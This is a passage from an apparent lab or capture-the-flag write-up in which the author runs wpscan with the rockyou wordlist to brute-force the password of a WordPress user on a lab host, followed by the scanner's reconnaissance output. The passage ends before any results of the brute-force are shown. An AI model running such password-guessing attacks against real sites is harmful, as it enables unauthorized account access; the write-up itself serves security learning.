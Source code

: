 Perhaps is is possible to bruteforce the password of this user which was found earlier with wpscan. I decided to use the famous rockyou wordlist for the password.
~~~bash                     
┌──(emvee㉿kali)-[~]
└─$ wpscan --url http://$ip/wordpress --usernames 'c0rrupt3d_brain' --passwords /usr/share/wordlists/rockyou.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://192.168.138.17/wordpress/ [192.168.138.17]
[+] Started: Tue Sep  6 21:30:38 2022

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.138.17/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.138.17/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://192.168.138.17/wordpress/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.138.17/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.2.4 identified (Insecure, released on 2019-10-14).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.138.17/wordpress/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.2.4'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.138.17/wordpress/, Match: 'WordPress 5.2.4'

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Passive Methods)
~~~